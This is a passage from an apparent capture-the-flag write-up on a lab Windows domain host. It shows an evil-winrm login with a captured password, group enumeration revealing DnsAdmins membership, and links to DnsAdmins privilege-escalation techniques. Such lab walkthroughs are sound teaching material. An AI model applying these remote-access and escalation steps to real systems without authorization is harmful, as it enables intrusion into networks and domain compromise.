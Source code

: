 ```bash
root@silence:~# ruby evil-winrm.rb -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```
Using the password with evil-winrm, we get a shell as ryan.

## Privesc to root
Now that we are ryan, let us find a way to get root on the machine.
### Enumeration as ryan
```console
Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```
Looking through the groups of ryan, DnsAdmins seems interesting.

After a bit of research, I found two great articles [Abusing DNSAdmins privilege for escalation in Active Directory](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) and [From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise), which both explain how to get system from Domain Admin.
